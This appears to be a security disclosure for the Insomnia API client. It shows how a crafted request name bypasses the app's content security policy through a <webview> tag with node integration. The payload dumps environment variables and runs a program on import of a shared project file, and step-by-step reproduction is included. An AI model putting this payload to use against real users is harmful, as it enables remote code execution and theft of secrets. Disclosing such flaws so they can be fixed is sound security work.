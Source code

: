 Because there is a CSP via meta tag in use:
```
default-src * insomnia://*; img-src blob: data: * insomnia://*; script-src 'self' 'unsafe-eval'; style-src 'self' 'unsafe-inline'; media-src blob: data: mediastream: * insomnia://*;
```
... some further steps are necessary in order to achieve JavaScript execution in a context with node.js access.
We can not simply use some basic XSS payload because of the CSP and we can not simply use the alternative to redirect the main application page to a page under our control because of a `will-navigate`-handler in [packages/insomnia-app/app/main/window-utils.js](https://github.com/Kong/insomnia/blob/07f9fa676ed8f2e7ea72e5374d69dcb960e32ca9/packages/insomnia-app/app/main/window-utils.js#L107).
However, since we can inject in a top level `BrowserWindow` context which allows the `<webview>`-tag we can just use that and enable `nodeIntegration` on it.
Note: The `<webview>`-tag is furthermore not restricted by the CSP of an embedding page. 

We can achieve code execution by setting the name field of the request to something like this:

```html
http://legitrequest<img/src=x><webview src="data:text/html,<script>window.onload = ()=> {document.body.innerText = JSON.stringify(process.env);require('child_process').execSync('calc.exe');}</script>" webpreferences="allowRunningInsecureContent, javascript=yes" nodeintegration></webview>
```

This can be abused by an external attacker by creating a request that:
- contains the malicious payload (i.e. malware download or data exfiltration code) in the *name field*
- setting a description (content does not matter, this field just needs to be set and not be empty)
- exporting the project file and tricking a victim into opening it
When the project file is imported in Insomnia the payload will get executed automatically.
Similarly the malicious project file could just be hosted somewhere and an URL pointing to the file could be selected by the victim in Insomnia via import "From URL". 


### Steps to Reproduce

1. Open the proof of concept file in Insomnia: [PoC](insomnia-poc.json)

Alternative (manual):

1. Create a new Request.

2. Set the name of a request to `<webview src="data:text/html,<script>window.onload = ()=> {document.body.innerText = JSON.stringify(process.env);require('child_process').execSync('calc.exe');}</script>" webpreferences="allowRunningInsecureContent, javascript=yes" nodeintegration></webview>`.

3. In the Docs Tab click on "Add Description" and insert at least a single letter there. This will ensure that a description exists.

4. Export the request (Insomnia v4 JSON other formats should work as well).

5. Import the previously exported JSON file in a clean Insomnia instance (e.g. delete the previously created request before importing). 

The payload will be automatically executed as soon as a project file containing this payload is imported.
No user interaction is required.
Note: If you have already other requests and selected a specific request before importing, you need to select the imported one to trigger the payload.
